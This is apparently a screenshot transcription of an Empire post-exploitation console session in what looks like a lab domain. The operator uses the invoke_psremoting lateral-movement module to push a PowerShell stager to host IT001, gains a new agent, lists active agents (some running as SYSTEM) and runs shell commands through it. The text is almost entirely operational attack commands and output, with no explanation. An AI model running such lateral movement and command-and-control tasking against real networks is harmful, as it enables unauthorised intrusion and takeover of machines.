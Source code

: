 ```
  ComputerName True                                  Host[s] to execute the stager on, comma 
                                                     separated.                              
  Proxy        False       default                   Proxy to use for request (default, none,
                                                     or other).                              
  UserName     False                                 [domain\]username to use to execute     
                                                     command.                                
  ProxyCreds   False       default                   Proxy credentials                       
                                                     ([domain\]username:password) to use for 
                                                     request (default, none, or other).      
  UserAgent    False       default                   User-agent string to use for the staging
                                                     request (default, none, or other).      
  Password     False                                 Password to use to execute command.     
  Agent        True        V6W3TH8Y                  Agent to run module on.                 

(Empire: powershell/lateral_movement/invoke_psremoting) > set ComputerName IT001.shire.com
(Empire: powershell/lateral_movement/invoke_psremoting) > set ComputerName IT001.shire.com
(Empire: powershell/lateral_movement/invoke_psremoting) > execute
[*] Tasked V6W3TH8Y to run TASK_CMD_WAIT
[*] Agent V6W3TH8Y tasked with task ID 4
[*] Tasked agent V6W3TH8Y to run module powershell/lateral_movement/invoke_psremoting
(Empire: powershell/lateral_movement/invoke_psremoting) > [*] Sending POWERSHELL stager (stage 1) to 10.0.10.103
[*] New agent 1NA52YVC checked in
[+] Initial agent 1NA52YVC from 10.0.10.103 now active (Slack)
[*] Sending agent (stage 2) to 1NA52YVC at 10.0.10.103

(Empire: powershell/lateral_movement/invoke_psremoting) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H3DKB8SA ps 172.18.39.106   HR001             SHIRE\nmartha           powershell         5172   5/0.0    2019-05-18 21:15:55  https           
 TKV35P8X ps 172.18.39.106   HR001             *SHIRE\nmartha          powershell         5452   5/0.0    2019-05-18 21:15:55  https           
 EMDBFPSY ps 172.18.39.106   HR001             SHIRE\nmartha           notepad            7924   5/0.0    2019-05-18 21:15:57  https           

 V6W3TH8Y ps 172.18.39.106   HR001             SHIRE\pgustavo          powershell         5204   5/0.0    2019-05-18 21:15:31  https           
 XSZ91N7T ps 172.18.39.105   IT001             *SHIRE\SYSTEM           powershell         4172   5/0.0    2019-05-18 21:15:57  https           
 1NA52YVC ps 172.18.39.105   IT001             *SHIRE\pgustavo         powershell         6884   5/0.0    2019-05-18 21:15:55  https           


(Empire: agents) > interact 1NA52YVC
(Empire: 1NA52YVC) > shell whoami
[*] Tasked 1NA52YVC to run TASK_SHELL
[*] Agent 1NA52YVC tasked with task ID 1
(Empire: 1NA52YVC) > shire\pgustavo
..Command execution completed.

(Empire: 1NA52YVC) > 
```